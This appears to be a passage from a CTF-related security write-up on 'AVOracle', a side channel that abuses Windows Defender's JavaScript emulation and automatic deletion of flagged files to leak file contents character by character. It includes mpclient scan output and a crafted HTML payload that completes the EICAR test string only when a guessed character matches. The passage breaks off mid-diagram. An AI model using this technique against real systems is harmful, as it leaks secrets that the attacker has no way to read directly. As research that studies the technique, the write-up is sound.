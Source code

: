 
The entire AVOracle stems from how Windows Defender scans for malware - it
automatically emulates anything that "looks like JavaScript." Especially
since Defender evaluates the file as a whole, if a file includes both
"attacker-controlled" and "unknown" parts, the attacker can leverage the
controlled part to influence how Defender perceives the unknown section.
What's worse, if Defender flags the file as malicious, it'll automatically
delete it - letting attackers turn this file deletion into a side-channel
oracle to reveal the file content!


=> Let's pretend the following file is a valid EICAR so we don't make
   Windows Defender *angry*! ;)

</PRE>
```perl
=> [1] Defender detects the EICAR string
$ cat eicar.com
  EICAR-STANDARD-ANTIVIRUS-TEST-FILE!

$ ./mpclient eicar.com
  [...]
  EngineScanCallback(): Threat Virus:DOS/EICAR_Test_File identified.


|-------------------------------- [ next ] -------------------------------|


=> [2] Defender kindly *emulates* your file as JScript
$ cat sample.txt
  var mal = "EICAR-STANDARD-ANTIVIRUS-TEST-FILE"
  eval(mal + "!")

$ ./mpclient sample.txt
  [...]
  EngineScanCallback(): Threat Virus:DOS/EICAR_Test_File identified.

```
<PRE>


So, let's say you can store a secret in the SESSION file, but there's no
way to read it directly. Crafting the following structure gives you the
ability to check whether the first character of the secret is an `A`: if
it is, the file gets deleted; otherwise, it stays. I think this technique
is super creative - and in some ways, it's a perfect example of how CTF
helps push the boundaries of cybersecurity!

</PRE>

***=> Defender \*emulates\* the JavaScript inside***

<br>

```javascript
+--------------------------------------------------------------+
|                       Crafted HTML File                      |
|--------------------------------------------------------------|
|              [ Arbitrary Padding / Junk Data ]               |
|                                                              |
| +----------------------------------------------------------+ |
| | <script>                                                 | |
| |    var c = document.body.innerHTML[0] == 'A' ? '!' : 0;  | |
| |    eval("EICAR-STANDARD-ANTIVIRUS-TEST-FILE" + c)        | |
| | </script>                                                | |
| +----------------------------------------------------------+ |
|                                                              |
| +----------------------------------------------------------+ |
| | <body>                                                   | |
```